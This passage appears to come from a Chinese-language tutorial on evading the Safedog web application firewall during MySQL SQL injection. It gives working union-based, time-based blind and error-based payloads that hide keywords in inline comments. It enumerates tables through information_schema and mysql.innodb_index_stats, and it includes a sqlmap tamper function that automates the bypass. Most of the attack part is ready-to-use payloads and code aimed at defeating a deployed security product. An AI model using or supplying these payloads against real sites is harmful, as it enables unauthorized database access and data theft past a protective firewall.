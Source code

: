 再测试select xxx from xxx发现被拦截。

说明select后面跟任意字符再加上from再加上任意字符就会被拦截。  

这里只需要将select放进内联即可绕过，也可以像之前一样在from前面加两个内联`/*!77777cz*/`，我这里为了简洁就只写一种。  
查表名

`-1' union /*!11440select*/ group_concat(table_name),2 from
information_schema.tables where table_schema=database/*!77777cz*/()#`

![]()

  

还可以用mysql>5.6版本的新特性,mysql库多了两个新表,innodb_index_stats 和 innodb_table_stats

  
这两个表是数据库自动设置的用于记录更改和新创建的数据库和表的信息，但准确的说是保存最近的数据库变动记录。

  

安全狗没有对这两个关键字进行限制。

  
具体怎么查爆内容看这篇文章（https://www.jianshu.com/p/6eba3370cfab）  
查表名  

`1' union /*!11440select*/ group_concat(table_name),2 from
mysql.innodb_index_stats where database_name=database/*!()*/#`

## 时间盲注和报错

经测试  
sleep()不会被拦但sleep()里面加数字就会被拦

updatexml()不会被拦，但是能执行的updatexml(1,1,0)会被拦截  
都可以用内联进行绕过

`lucy ' /*!11440or*/ /*!11440sleep(3)*/#  
-1'AND updatexml/*!77777cz*/(1,version(),0)#`

最基本的绕过方式已经找到，但我们的目的是编写sqlmap tamper来一键化过狗,先将上面的方法写成tamper来进行测试

  
tamper的编写很简单参考这篇https://www.jianshu.com/p/c24727dd1f7a

  
我这里简单介绍下payload替换部分，假如在服务器上AND被拦截，我们想用内联注释/!11444AND/绕过，就需要这样写

  

def tamper(payload, **kwargs):  
       payload=payload.replace('AND','/*!11444AND*/')  

  

其他的order、union、sleep等都是同样的方法。

  
在测试tamper的时候将sqlmap等级调整为v3这样可以显示使用到的语句  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816090627.png)
